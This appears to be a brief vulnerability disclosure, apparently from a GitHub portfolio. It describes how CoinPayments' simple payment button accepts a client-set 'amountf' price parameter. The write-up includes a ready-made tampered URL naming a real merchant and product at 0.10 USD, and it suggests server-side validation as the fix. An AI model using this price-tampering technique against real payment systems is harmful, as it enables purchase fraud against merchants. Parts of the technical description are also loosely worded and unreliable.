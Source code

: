 in 2022 i found a vulnerabilitie in Coinpayments api, the website is likely not properly validating or securing the user input from the URL parameter
allowing an attacker to modify the price directly. 

vulnerable url: https://www.coinpayments.net/index.php?cmd=_pay_simple&reset=1&merchant=452f63dd60678a63ce74eef80f69d284&item_name=Synapse%20X&item_desc=One%20redeemable%20serial%20key%20for%20Synapse%20X&item_number=1&currency=USD&amountf=0.1&want_shipping=0&success_url=https://x.synapse.to/success.html&cancel_url=https://x.synapse.to/success.html
risk: critical

<h2>summary</h2>:

	<input type="hidden" name="amountf" value="1.00">
  
  when you buy a product that have a payment method with coinpayments the merchant tool button api will send a post request with the following details:
	{"error":"ok",
               "result":{
                  "amount":"0.10",
                  "address":"ZZZ",
                  "dest_tag":"YYY",
                  "txn_id":"XXX",
                  "confirms_needed":"10",
                  "timeout":9000,
                  "cmd":"_pay_simple","reset":"1","merchant":"{merchent}","item_name":"{product_name}","item_desc":"{item_desc}","item_number":1,"currency":"USD","amountf":0,"want_shipping":0,"success_url":"https://x.synapse.to/success.html","cancel_url":"https://x.synapse.to/success.html"}

when you change the parameter "amountf" the api will not check if its right or no its automatically processed and it will be the price of the product
and when you pay the modified price which is 0.10$ minimum it will redirect you to success url and the payment is done and the real price has been modified
     
    solution:
      perform access validation.
      the price parameter should not be filled with the user
      
read more about the idor vulnerabilitie: https://portswigger.net/web-security/access-control/idor

![imagss](https://github.com/NoordKing1/Fiverr_portfolio/assets/73787446/a7bf21ae-aa69-4743-98dc-51e62a58a0e2)


and like you see here the price really changed not just the value of it


